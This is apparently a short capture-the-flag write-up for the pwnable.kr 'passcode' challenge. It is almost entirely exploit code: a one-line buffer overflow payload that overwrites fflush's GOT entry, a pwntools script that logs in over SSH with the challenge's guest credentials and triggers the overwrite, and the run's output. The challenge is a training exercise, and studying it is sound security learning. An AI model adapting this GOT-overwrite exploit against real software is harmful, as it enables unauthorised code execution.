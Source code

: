 ### 0x01. Exploit

```
passcode@prowl:~$ (python -c 'print "A"*96+"\x04\xa0\x04\x08"';cat)|./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA♦�!
134514147
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

##### python

```python
from pwn import *

conn = ssh("passcode", "pwnable.kr", port=2222, password="guest")
p = conn.process("./passcode")

fflush_got = 0x804a004
system = 0x80485e3

payload  = "A"*96
payload += p32(fflush_got)

p.recv()
p.sendline(payload)
p.recv()
p.sendline("134514147")
print p.recv()
p.close()
conn.close()
```

```
root@ubuntu:~/pwnable/passcode# python ex.py
[+] Connecting to pwnable.kr on port 2222: Done
[*] fd@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process './passcode' on pwnable.kr: pid 218086
Sorry mom.. I got confused about scanf usage :(
Now I can safely trust you that you have credential :)

[*] Stopped remote process 'passcode' on pwnable.kr (pid 218086)
[*] Closed connection to 'pwnable.kr'
```

-----

